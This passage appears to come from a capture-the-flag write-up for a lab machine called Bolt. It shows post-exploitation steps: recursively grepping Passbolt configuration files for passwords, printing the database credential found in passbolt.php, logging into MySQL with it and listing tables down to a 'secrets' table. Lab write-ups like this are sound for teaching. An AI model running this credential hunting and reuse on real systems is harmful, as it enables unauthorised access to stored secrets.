 which is a potential password we can use latter

- also there is `/etc/passbolt` we can check it
- to search for potential passwords in it we can use :

```bash
grep --color=auto -rnw '.' -Rie "password" --color=always 2>/dev/null
# ./passbolt.php:42:            'password' => 'rT2;jW7<eY8!dX8}pQ8%',
```

![error](/assets/images/Bolt/20220224114429.png)

we can try to see if we can access the mysql database :

```
passbolt:rT2;jW7<eY8!dX8}pQ8%
```

```bash
www-data@bolt:/etc/passbolt$ mysql -u passbolt -D passboltdb -p
# mysql>
```

- and we have connected successfully , we can now see if there is anything interesting for us

```bash
mysql > SHOW databases ; # list them
mysql > use passboltdb;
mysql > show tables; # list tables
mysql > Describe secrets ; # found table secrets seems interesting
```

- will find this PGP message inside the column data of table secrets :

![error](/assets/images/Bolt/20220224115251.png)
